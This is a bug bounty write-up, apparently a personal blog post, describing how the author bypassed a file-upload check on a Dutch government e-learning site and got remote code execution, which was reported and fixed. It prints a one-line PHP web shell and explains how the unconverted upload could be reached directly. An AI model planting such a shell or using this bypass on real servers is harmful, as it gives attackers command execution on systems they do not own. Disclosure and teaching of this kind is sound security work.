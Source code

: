 ```yaml
---
layout: post
title: "Unveiling RCE on a Dutch Government website"
date: 2023-09-08 12:00:00 +0600
categories: [Bug Bounty]
tags: [bug bounty, rce, file upload, dutch government, swag]
description: My story of bypassing File upload feature to achieve Remote Code Execution (RCE) on a Dutch government website.
image: https://miro.medium.com/v2/resize:fit:1100/format:webp/1*2dCw819y1EPP9vfn2lvojQ.jpeg
---
```


## Introduction

Assalamu Alaikum! This is Nayeem Islam. I’m currently an undergrad student and a passionate webapp security learner from Bangladesh.

This is my first write-up and I’ll be sharing how I bypassed File upload to achieve Remote Code Execution (RCE) vulnerability on a Dutch government website. You can skip my background story and head to the exploitation part ahead.

## Background
My bug bounty journey started in September 2021. That time, I saw a few researchers sharing a picture of a cool black T-shirt on Twitter. Since then, it’s been my dream to get Dutch government swag.

I began my journey by targeting low-hanging fruits, often receiving informative or non-applicable responses on platforms like HackerOne. I kept trying and finally found my first valid bug in April 2022 and it worked like a motivation to test my luck with Dutch government websites.

## Recon
I gathered some articles about hacking the Dutch government to get an initial idea of the process. Reading those articles, I learned that they only offer swags for impactful bugs, ruling out any low-hanging fruits.

Googled for scopes and found this [repository](https://gist.github.com/testerzs/cf3085ec0bad6b1d661887d4f44e3574). I found a site related to healthcare. At the time, my recon skills were fairly basic, limited to subdomain enumeration.

I found a single live subdomain using `crt.sh`. It was an e-learning platform where anyone can sign-up. So, I chose this as my target because more functionality increase the possibility of finding more bugs.

Additionally, I noticed the e-learning portal was built using the PHP Laravel framework which further fueled my anticipation of finding a bug.

## File Upload Bypass
So my target was `elearning.example.nl`. I registered an account, explored my profile and tested for XSS, HTML injection, CSRF, but came up empty-handed.

Then I started testing profile picture upload feature. I tried uploading a simple `test.txt` file & the upload was successful. However, my joy was vanished as I discovered the following error when attempting to view the uploaded image.

`There is an error with this image file`

Have a close look at the URL structure. You can see below my `txt` file has been renamed and converted to `jpg` as well. 😥

![Fox-Rd-OAa-AAMDOJ0.jpg](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*6I-orgmJoVHO5RMWy3SYjQ.png)

I tried IDOR on this endpoint `/storage/52` because this number was user identifier & sequential. It didn’t work. I took a short break to recharge myself then revisited the target.

This time I paid close attention to the sub directory `conversions` in the URL. I asked myself what the hell is this directory doing here? **They might be storing my original text file in the `/528/` directory then converting it to jpg and saving it to `conversions`.**

So, I attempted to access the uploaded text file directly from `/528/`, resulting in a URL like this
`https://elearning.example.nl/528/my-image.txt`
My assumption was right. The TXT file executed! I documented my findings with a Proof of Concept (PoC) and submitted my initial report.

Meanwhile, I was exploring ways to further exploit the file upload feature and I came across this excellent [article](https://sm4rty.medium.com/hunting-for-bugs-in-file-upload-feature-c3b364fb01ba).

## Exploiting RCE
Later, I learned about how File Upload can be exploited to achieve RCE. Then I uploaded this simple one liner PHP shell to see whether it works.  

```php
<?php system($_GET['cmd']); ?>
```

Opened profile image in a new tab and modified the URL with RCE command. The outcome? Voilààà! I had successfully achieved Remote Code Execution. 😎  
![rce](https://miro.medium.com/v2/resize:fit:1100/format:webp/1*SIDxUl7fIJ1dHSu7274N9A.png)  
Send additional report to prove the impact of this newfound vulnerability.

## End Story
I was happy and hopeless at the same time. This discovery seemed too easy, raising the possibility of it being a duplicate. To my surprise, my report was triaged! NCSC-NL also advised me not to upload shell on their system!

Before this discovery, I had never completed a single Portswigger lab on File Upload or Command Execution, except for basic TryHackMe rooms.

This issue was resolved within a month and I was awarded the dream Swag! It was my first critical finding on a real target as well as my first ever bug submission on the Dutch Government. I thought I was lucky but I was wrong. My swag got lost in the shipment. 😞

They say, 
> Enjoy the journey, not just the destination. 

How true that turned out to be. I learned a ton of lessons throughout this journey.

## Timeline
- 18-06-2022 - Reported the vulnerabilty.

- 19-06-2022 - Received the first response.

- 20-06-2022 - Bug confirmed and triaged.

- 18-07-2022 - Bug Resolved.

- 22–07–2022 - Swag shipped by NCSC-NL and lost in the shipment.


## Credit
I’d like to extend my gratitude to all the members of the Bug Bounty Community of Bangladesh for their mentorship and the infosec community on Twitter for sharing invaluable research and tips.

Thank you for taking the time to read this lengthy blog.